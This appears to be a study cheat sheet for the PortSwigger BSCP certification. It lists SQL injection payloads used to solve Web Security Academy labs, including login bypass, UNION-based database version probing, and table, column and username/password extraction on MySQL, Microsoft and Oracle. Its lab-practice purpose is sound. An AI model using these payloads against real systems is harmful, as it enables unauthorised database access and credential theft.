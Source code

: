 # Labs PortSwigger - Préparation BSCP

https://portswigger.net/web-security/all-labs 

## === SQL ===

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    GET /filter?category=Lifestyle’+OR+1=1--

### SQL injection vulnerability allowing login bypass

    administrator’--
    
### SQL injection attack, querying the database type and version on Oracle

	GET /filter?category=Gifts‘+UNION+SELECT+'abc','def'+FROM+dual–
	GET /filter?category=Gifts'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
    
### SQL injection attack, querying the database type and version on MySQL and Microsoft

    GET /filter?category='+UNION+SELECT+@@version,+NULL#

###  SQL injection attack, listing the database contents on non-Oracle databases

	GET /filter?category=Pets'+UNION+SELECT+'1'--
    GET /filter?category=Pets'+UNION+SELECT+'1','2'--
    GET /filter?category=Pets'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
	GET /filter?category=Pets'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ikwqbr'--
	GET /filter?category=Pets'+UNION+SELECT+username_qtcsru,+password_vgkvts+FROM+users_ikwqbr--

### SQL injection attack, listing the database contents on Oracle

    GET /filter?category='+UNION+SELECT+'abc','def'+FROM+dual--
    GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables–
    GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WQIUUS'-- HTTP/2
    GET /filter?category='+UNION+SELECT+USERNAME_FJLMOM,+PASSWORD_CCZEKZ+FROM+USERS_WQIUUS--

### SQL injection UNION attack, determining the number of columns returned by the query

	GET /filter?category=Gifts'+UNION+SELECT+NULL--
	GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL--
	GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--
    
